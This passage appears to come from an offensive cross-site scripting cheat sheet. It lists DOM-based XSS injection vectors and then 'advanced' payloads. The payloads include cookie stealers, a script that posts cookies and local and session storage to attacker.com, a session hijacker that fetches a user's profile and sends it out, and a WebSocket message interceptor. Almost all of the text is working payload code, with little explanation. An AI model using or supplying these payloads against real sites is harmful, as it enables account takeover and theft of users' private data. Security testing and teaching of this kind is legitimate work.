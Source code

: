 ```javascript
  document.forms[0].action = 'https://attacker.com/logger';
</script>
```

### DOM Based XSS

Payload is executed through client-side JavaScript manipulation:

```javascript
# URL Fragment Exploitation
#<img src=x onerror=alert(1)>    # Targeting location.hash
?search=<img src=x onerror=alert(1)>  # Targeting location.search

# DOM Manipulation
document.write('... USER_INPUT ...')  # document.write injection
element.innerHTML = '... USER_INPUT ...'  # innerHTML injection
$("#element").html('... USER_INPUT ...')  # jQuery html() injection
```

### Advanced XSS Payloads

#### Cookie Theft

```javascript
# Basic Cookie Stealer
<script>
fetch('https://attacker.com/steal?cookie='+document.cookie);
</script>

# Advanced Cookie Stealer
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://attacker.com/logger', true);
xhr.send(JSON.stringify({
    'url': window.location.href,
    'cookies': document.cookie,
    'localStorage': localStorage,
    'sessionStorage': sessionStorage
}));
</script>
```

#### Session Hijacking

```javascript
# Session Hijacker
<script>
fetch('/api/user/profile')
  .then(r=>r.json())
  .then(data=>fetch('https://attacker.com/logger?data='+btoa(JSON.stringify(data))));
</script>

# WebSocket Hijacker
<script>
var ws = new WebSocket('wss://target.com/ws');
ws.onmessage = function(e) {
  fetch('https://attacker.com/ws-log?data='+btoa(e.data));
};
</script>
```
